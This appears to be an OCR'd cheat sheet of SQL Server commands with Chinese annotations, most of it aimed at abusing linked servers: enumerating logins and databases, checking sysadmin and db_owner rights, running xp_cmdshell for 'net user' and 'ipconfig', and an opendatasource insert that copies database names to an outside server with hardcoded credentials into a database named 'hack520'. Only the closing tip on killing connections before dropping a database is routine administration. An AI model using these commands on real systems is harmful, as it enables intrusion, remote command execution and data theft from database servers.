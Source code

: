 查询linkserver等登录用户
select * from [192.168.1.1].master.dbo.syslogins

查询linkserver上的所有数据库
select * from  linkedSrvWeb.master.dbo.sysdatabases

在linkserver上执行扩展存储
exec [ip].master.dbo.xp_cmdshell

在linkserver上查询所有的表
select * from  [ip].master.dbo.sysobjects




select * from openrowset('sqloledb','server=IP;uid=用户;pwd=密码','select @@version')

select * from openquery([LINKSERVER名称],'select @@version')


select * from openquery(NDOORS,'select IS_SRVROLEMEMBER(''sysadmin'')')


select * from openquery(GM_SERVER,'select * from sysobjects where xtype = (''U'')')

select * from openquery(NDOORS,'Select IS_MEMBER(''db_owner'')')


select * from openquery(toatdeweb,'select srvname from master.dbo.sysservers')

insert into opendatasource('sqloledb','server=222.241.95.12;uid=scd;pwd=a123520;database=hack520').hack520.dbo.zhu select name from master.dbo.sysdatabases
create database hack520 Create TABLE zhu(name nvarchar(256) null);Create TABLE J8(id int NULL,name nvarchar(256) null);

select * from openquery(toatdeweb,'set fmtonly off exec master.dbo.xp_cmdshell ''net user''')

exec master..xp_dirtree 'c:\',1,1 执行查询目录

exec links.master..xp_cmdshell 'ipconfig'

select * from openquery(toatdeweb,'set fmtonly off exec master.dbo.xp_cmdshell ''ipconfig /all''')

连接mysql Select * from Mem_DB.UserDB.dbo.AdminList

EXEC MASTER..XP_dirtree 'c:\',1,1


Exec master.dbo.xp_cmdshell 'dir '

select count(*) from [表明] 查询当前表有多少数据


select distinct hostname,db_name(dbid),net_address,loginame,program_name from master..sysprocesses



select * from gamedb01.Server01.dbo.cabal_character_table where name='猪'


你删除的时候显示：数据库正在被使用，无法删除。

点击要删除的数据库，打开事件查看器。

输入：

use   master
go
然后输入以下内容：
declare   @d   varchar(8000)
set   @d= ' '
select   @d=@d+ '   kill   '+cast(spid   as   varchar)+char(13)
from   master..sysprocesses   where   dbid=db_id( '库名 ')
exec(@d)
--用代码先删除连接此数据库的进程
